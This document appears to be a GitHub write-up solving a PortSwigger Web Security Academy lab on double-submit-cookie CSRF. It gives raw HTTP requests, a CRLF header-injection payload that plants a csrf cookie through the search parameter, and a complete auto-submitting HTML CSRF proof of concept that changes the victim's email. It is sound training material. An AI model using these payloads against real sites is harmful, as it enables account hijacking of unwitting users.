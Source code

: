 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5e3c5679-cfe8-4604-88d1-27aff3ccef53)


## Overview :

Sites also commonly use a **double-submit cookie as a defense against CSRF**. In this technique, the state-changing request contains the same random token as both a cookie and a request parameter, and  the server checks whether the two values are equal. If the values match, the request is seen as legitimate. Otherwise, the application rejects.

If the application uses double-submit cookies as its CSRF defense mechanism, it’s probably not keeping records of the valid token server-side. If the server were keeping records of the CSRF token server-side, it could simply validate the token when it was sent over, and the application would not need  to use double-submit cookies in the first place. 

The **server has no way of knowing if any token it receives is actually legitimate; it’s merely checking that the token in the cookie and the token in the request body is the same**. 

_Bypass this restriction by providing same non legitimate token in both request & body -_

```http
POST /password_change
Host: email.example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE; csrf_token=not_a_real_token
(POST request body)
new_password=abc123&csrf_token=not_a_real_token
```


## Solution :

When we login as wiener using the credentials `wiener:peter` , we can see that there is an option to update email.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/81496866-9b48-4acd-b45e-cdf53f282194)


When we click _update email_ , browser sends a POST request to `/my-account/change-email` endpoint.

```http
POST /my-account/change-email HTTP/1.1
Host: 0a5200eb035a4bf3809f127f001f008b.web-security-academy.net
Cookie: session=oJuWDMUGan7TVwoWDo33yLY0YZDxXCCi; csrf=OCdA7UvClyR6Aw4aRGYUKWKZWRYhB3Q8
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0a5200eb035a4bf3809f127f001f008b.web-security-academy.net
Referer: https://0a5200eb035a4bf3809f127f001f008b.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=user%40user.net&csrf=OCdA7UvClyR6Aw4aRGYUKWKZWRYhB3Q8
```
We can see that there is a **double submit of csrf token** in the cookie and request parameter. 

**This means that the server is not storing csrf tokens on server side instead it is just comparing whether both the tokens are same . If yes then it accepts the request else it rejects.**

So to bypass this , we can give any random token of the same length (the server might be checking the length of the token also) both in cookie and in request parameter.

```http
POST /my-account/change-email HTTP/1.1
Host: 0a5200eb035a4bf3809f127f001f008b.web-security-academy.net
Cookie: session=oJuWDMUGan7TVwoWDo33yLY0YZDxXCCi; csrf=anytoken
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0a5200eb035a4bf3809f127f001f008b.web-security-academy.net
Referer: https://0a5200eb035a4bf3809f127f001f008b.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=pwned%40user.net&csrf=anytoken
```

But we can't directly change the value of csrfkey cookie & send the request, it won't work.

To change the csrfkey value we need to perform **Host Header Injection** to inject the csrfkey cookie into the victim browser whne he clicks on the link which we create.

#### Injecting csrfkey cookie value -

We need to find any functionality that takes user input. IN this case, we have a search functionality.

If we search for any term , we can see from the response that the search we used is getting added as a cookie - `Set-Cookie: LastSearchTerm=hello`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/15699775-2df8-4922-8c3c-c47762559c15)


So with this we can try to inject the csrfkey value.

Use this payload query in the search parameter of the request - `/?search=test%0d%0aSet-Cookie:%20csrf=anytoken%3b%20SameSite=None` which decodes to `/?search=test Set-Cookie: csrf=anytoken; SameSite=None`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/bb314731-0f4c-4d08-8c49-92fc79031406)

From the response we can confirm that we can inject the csrfkey value by HTTP header injection.

#### Generate csrf POC -

```http
POST /my-account/change-email HTTP/2
Host: 0aa7009804198f7480e676da00a90003.web-security-academy.net
Cookie: session=oJuWDMUGan7TVwoWDo33yLY0YZDxXCCi; LastSearchTerm=hello; csrf=rDAgotYXNjVLeo1Ku6YLvJYzxwVhRL3Y
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0aa7009804198f7480e676da00a90003.web-security-academy.net
Referer: https://0aa7009804198f7480e676da00a90003.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

email=pwned%40user.net&csrf=anytoken
```

Send this request to CSRF POC generator. 

> Note that we have only changed the csrf token value to **anytoken**. The csrfkey value is still the same. It will have to be injected into victim's session. For this we can use a `<img>` tag, where we load the url along with HTTP header injection payload to inject the csrfkey value as anytoken . Since there is no image in that url , it will trigger an error. On error it will submit the form.


```html
<img src="https://0aa7009804198f7480e676da00a90003.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=anytoken%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
```

**Final POC** -

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0aa7009804198f7480e676da00a90003.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned&#64;user&#46;net" />
      <input type="hidden" name="csrf" value="anytoken" />
      <input type="submit" value="Submit request" />
    </form>
			<img src="https://0aa7009804198f7480e676da00a90003.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=anytoken%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

Deliver the exploit to victim & solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/f1ecc800-19d5-4d98-bd6f-e8a45b399223)








